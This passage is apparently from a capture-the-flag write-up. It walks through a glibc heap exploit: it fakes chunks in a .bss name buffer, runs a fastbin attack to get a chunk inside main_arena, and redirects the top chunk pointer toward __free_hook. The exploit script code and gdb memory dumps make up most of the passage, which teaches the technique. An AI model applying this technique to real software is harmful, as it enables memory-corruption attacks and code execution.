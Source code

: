 I do this by first changing its size to 0x61, then allocating a 0x58 sized chunk.
```python
# We don't want subsequent allocations to come out of the unsorted bin
# Since we will use our fake chunk a lot, it is guaranteed to be corrupted.
# Any subsequent mallocs will then just crash if the unsorted bin is used
# Therefore, just empty out the unsorted bin here by first changing its size to 0x61
# Then we allocate a 0x58 sized chunk
reintroduce(p64(0) + p64(0x61) + p64(leak) + p64(leak) + p64(0)*9 + p64(0x21))
add(0x58, 'A'*0x58) # 7
```

Next, I fake a 0x20 sized chunk and free it. This will fill up the 0x20 sized fastbin in `main_arena`. Since this fake chunk has an address starting with 0x60 (due to our name array being at the address 0x602040), we can get a fake chunk right inside `main_arena`.

I also fake a 0x61 sized chunk and free that in preparation for the fastbin attack that we will do to get the chunk in `main_arena`. Notice how useful this name variable is being?
```python
# We fake a 0x20 sized chunk and free it. This will be our fake chunk in main_arena.
# The main arena's fastbin[2], which is the 0x20 fastbin, will have a pointer to this chunk.
# Remember this chunk is in the .bss segment, so its address is 0x602040.
reintroduce(p64(0) + p64(0x31) + p64(0x21)*8)
free(6)

# Now we free a 0x61 sized chunk to prepare for the fastbin attack
reintroduce(p64(0) + p64(0x61) + p64(0x21)*18)
free(6)

# This is the address where the 0x602040 address from above looks 16 byte aligned
fake_chunk_top = main_arena + 0x10 - 0x6
```
```c
// main_arena = 0x7f19ee5d4b20
gef➤  x/12gx 0x7f19ee5d4b20          .--------------------- Our freed 0x20 chunk
0x7f19ee5d4b20: 0x0000000000000000   |  0x0000000000000000
0x7f19ee5d4b30: 0x0000000000602040 <-   0x0000000000000000
0x7f19ee5d4b40: 0x0000000000000000      0x0000000000602040 <-.
0x7f19ee5d4b50: 0x0000000000000000      0x0000000000000000 Freed 0x60 chunk in preparation
0x7f19ee5d4b60: 0x0000000000000000      0x0000000000000000 for the fastbin attack
0x7f19ee5d4b70: 0x0000000000000000      0x00000000011e3120
gef➤  x/12gx 0x7f19ee5d4b20 + 0x10 - 0x6
0x7f19ee5d4b2a: 0x2040000000000000      0x0000000000000060 <- looks like a fake chunk
0x7f19ee5d4b3a: 0x0000000000000000      0x2040000000000000
0x7f19ee5d4b4a: 0x0000000000000060      0x0000000000000000
0x7f19ee5d4b5a: 0x0000000000000000      0x0000000000000000
0x7f19ee5d4b6a: 0x0000000000000000      0x3120000000000000
0x7f19ee5d4b7a: 0x000000000000011e      0x4b78000000000000
```

Next, we simply do the fastbin attack again to get a chunk in `main_arena`. Using gdb, the offset can be found by trial and error, and then you can overwrite the top chunk pointer to `__free_hook - 0x1100 + 0x70 - 0x5`. Ensure to not put anything but NULL bytes inside `main_arena` before the top chunk pointer. Any other bytes will be treated as an address existing in a fastbin, which corrupts the fastbin and will for sure later crash your program.
```python
# We set our fake chunk's fd pointer to point to our fake chunk in main arena
reintroduce(p64(0) + p64(0x61) + p64(fake_chunk_top) + p64(0))

# Chunk 9 will be in main arena, we overwrite it with free_hook-0x1100+0x70-0x5
# If you look at that address-0x10, it looks like the top chunk header
# So we set the top chunk pointer to that address (free_hook-0x1100+0x70-0x5)
add(0x50, 'B'*0x50) # 8
add(0x50, '\x00'*0x3e + p64(free_hook - 0x1100 + 0x70 - 0x5)) # 9

# Now the next chunk was a test to see if it worked
# This chunk should be placed at free_hook-0x1100+0x70-0x5
```